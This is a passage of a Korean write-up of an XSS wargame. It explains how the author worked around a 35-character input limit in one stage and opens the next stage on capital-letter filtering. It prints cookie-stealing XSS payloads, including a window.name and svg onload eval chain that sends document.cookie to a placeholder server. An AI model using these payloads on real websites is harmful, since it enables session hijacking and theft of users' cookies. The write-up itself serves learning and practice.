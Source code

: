 

```
12345678901234567890123456789012345
```



총 35자까지 잘립니다. 35자 안에 모든 걸 끝내야 되는데, 어떻게 이 안에 넣을것인가?



이거 보니까 몇자 짤려요! 몇자까지 잘리나보면,



```
12345678901234567890123456789012345
```



총 35자까지 잘립니다. 35자 안에 모든 걸 끝내야 되는데, 어떻게 끝내야 되지?

`location='http://서버주소?'%2Bdocument.cookie` 이것만 해도 35자 넘는걸?

고민하다가 Stage 14번 기억하세요?

문자 갯수 제한 없는 비슷한 문제에 넣어서 풀면 되지! 라는 생각에 도달하게 되었어요!

그전에 우선 이 문제에서 알림창을 띄어봐야 해요!



```
<svg/onload=alert(1)>
<script>window.name="location.href='서버주소?a='%2Bdocument.cookie";
location.href="stage25번 주소/?q=%3Csvg/onload=eval(name)%3E"</script>
```



이렇게 짜고 스크립트 갯수 제한 없는 `stage2`에 스크립트 추가해서 넣었습니다!!

예~~ 풀어써 이거 풀때는 내가 이걸 왜 하고 있는가?!!!! 이 생각 뿐이었는데 푸니까 기분 좋음! `신나!`



------



### Stage26 - Change Capital letter



첫 시작은 디폴트로!



```
<script>alert(1)</script>
```



오! 역시 안되네염! 소스코드를 확인해볼까요!!


![img](https://blackperl-security.gitlab.io/img/post/2018-09-12-webtour-04/xss4_8.png)
